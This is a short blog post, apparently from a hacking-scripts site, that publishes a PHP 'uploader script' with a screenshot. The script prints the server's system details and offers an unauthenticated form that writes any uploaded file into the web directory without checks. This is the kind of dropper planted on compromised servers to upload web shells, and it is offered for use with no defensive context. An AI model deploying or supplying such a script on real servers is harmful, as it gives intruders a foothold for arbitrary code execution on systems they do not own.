 ```yaml
---
id: 66
title: Uploader Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=66
permalink: /uploader-script/
categories:
  - PHP
  - Upload
tags:
  - PHP
  - uploader
---
```

This is a very basic uploader script, which simply enables the user to upload whatever they want to the server.

### Uploader Script Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
echo '&lt;b&gt;&lt;br&gt;&lt;br&gt;'.php_uname().'&lt;br&gt;&lt;/b&gt;';
echo '&lt;form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader"&gt;';
echo '&lt;input type="file" name="file" size="50"&gt;&lt;input name="_upl" type="submit" id="_upl" value="Upload"&gt;&lt;/form&gt;';
if( $_POST['_upl'] == "Upload" ) {
    if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo '&lt;b&gt;Upload SUKSES !!!&lt;/b&gt;&lt;br&gt;&lt;br&gt;'; }
    else { echo '&lt;b&gt;Upload GAGAL !!!&lt;/b&gt;&lt;br&gt;&lt;br&gt;'; }
}
?&gt;
</pre>

### Uploader Script Screenshot

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/01/uploader.png" alt="uploader script screenshot" width="495" height="108" class="aligncenter size-full wp-image-333" />][1]

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/uploader.png